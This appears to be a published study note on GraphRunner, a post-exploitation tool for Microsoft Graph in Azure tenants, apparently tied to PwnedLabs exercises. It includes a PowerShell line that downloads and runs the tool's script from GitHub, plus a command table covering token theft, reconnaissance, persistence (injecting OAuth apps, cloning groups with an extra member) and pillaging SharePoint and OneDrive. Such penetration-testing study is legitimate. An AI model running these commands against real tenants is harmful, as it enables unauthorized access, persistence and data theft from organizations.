 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/clouds/azure/tool-graph-runner/","noteIcon":"","created":"2025-04-15T14:11:19.596-04:00"}
---
```








# 4. Tools
# 4.1 GraphRunner - Black Hill
According to Black Hill, GraphRunner is a post exploitation tool to get information regarding Graph API. [Video](https://www.youtube.com/watch?v=o29jzC3deS0)
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
```

The github repository: [GraphRunner](https://github.com/dafthack/GraphRunner/) 

If you don't know where to start, `List-GraphRunnerModules` is a good start.

The best examples are here. [[PwnedLabs/4. Loot Exchange, Teams and SharePoint with GraphRunner\|../PwnedLabs/4. Loot Exchange, Teams and SharePoint with GraphRunner]]



| **Category**            | **Command**                          | **Description**                                                                |
| ----------------------- | ------------------------------------ | ------------------------------------------------------------------------------ |
| **Authentication**      | `Get-GraphTokens`                    | Authenticate as a user to Microsoft Graph                                      |
|                         | `Invoke-RefreshGraphTokens`          | Use a refresh token to obtain new access tokens                                |
|                         | `Get-AzureAppTokens`                 | Complete OAuth flow as an app to obtain access tokens                          |
|                         | `Invoke-RefreshAzureAppTokens`       | Use a refresh token and app credentials to refresh a token                     |
|                         | `Invoke-AutoTokenRefresh`            | Refresh tokens at an interval                                                  |
| **Recon & Enumeration** | `Invoke-GraphRecon`                  | General recon for org info, user settings, directory sync settings, etc.       |
|                         | `Invoke-DumpCAPS`                    | Gets conditional access policies                                               |
|                         | `Invoke-DumpApps`                    | Gets app registrations and external enterprise apps, along with consent info   |
|                         | `Get-AzureADUsers`                   | Retrieves user directory                                                       |
|                         | `Get-SecurityGroups`                 | Retrieves security groups and their members                                    |
|                         | `Get-UpdatableGroups`                | Finds groups that can be modified by the current user                          |
|                         | `Get-DynamicGroups`                  | Displays membership rules for dynamic groups                                   |
|                         | `Get-SharePointSiteURLs`             | Lists SharePoint site URLs visible to the user                                 |
|                         | `Invoke-GraphOpenInboxFinder`        | Checks inboxes in a list to see if they are readable                           |
|                         | `Get-TenantID`                       | Retrieves the tenant GUID from the domain name                                 |
| **Persistence**         | `Invoke-InjectOAuthApp`              | Injects an app registration into the tenant                                    |
|                         | `Invoke-SecurityGroupCloner`         | Clones a security group with an identical name, injecting another user as well |
|                         | `Invoke-InviteGuest`                 | Invites a guest user to the tenant                                             |
|                         | `Invoke-AddGroupMember`              | Adds a member to a group                                                       |
| **Pillage**             | `Invoke-SearchSharePointAndOneDrive` | Searches across SharePoint sites and OneDrive drives                           |